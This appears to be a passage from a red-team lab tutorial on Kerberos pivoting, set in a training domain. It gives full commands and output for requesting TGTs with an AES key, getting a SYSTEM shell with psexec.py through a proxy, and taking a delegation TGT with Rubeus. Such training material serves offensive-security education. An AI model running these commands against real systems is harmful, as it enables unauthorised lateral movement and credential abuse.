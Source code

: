 # Pivoting with Kerberos 

Using Impacket through proxychains is a popular way to do this. First, let's use getTGT.py to request a TGT for jking with their AES256 hash.

    ubuntu@DESKTOP-3BSK7NO ~> proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    |S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
    |S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
    [*] Saving ticket in jking.ccache
    
This will automatically output the ticket in ccache format which can be used with other Impacket scripts.  However, we must first create an environment variable called KRB5CCNAME that will point to the ccache file.

    ubuntu@DESKTOP-3BSK7NO ~> export KRB5CCNAME=jking.ccache   
        
Now we can use psexec.py to get a SYSTEM shell on WEB.

    ubuntu@DESKTOP-3BSK7NO ~> proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation    
    
    C:\Windows\system32> hostname && whoami
    web
    nt authority\system
    
    C:\Windows\system32> exit
    [*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0        

If you have a ticket in kirbi format obtained with another tool, it can be converted to ccache format for use with Impacket.  For example, here I'm using the TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session.

    beacon> getuid
    [*] You are DEV\bfarmer
    
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
    
    [*] Action: Request Fake Delegation TGT (current user)

Base64 decode the ticket and write it to bfarmer.kirbi.

    ubuntu@DESKTOP-3BSK7NO ~> echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi

Then convert it using ticketConverter.py.

    ubuntu@DESKTOP-3BSK7NO ~> ticketConverter.py bfarmer.kirbi bfarmer.ccache
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
This tool can also convert from ccache to kirbi.

Now let's use this TGT to interact with the SQL-2 service.

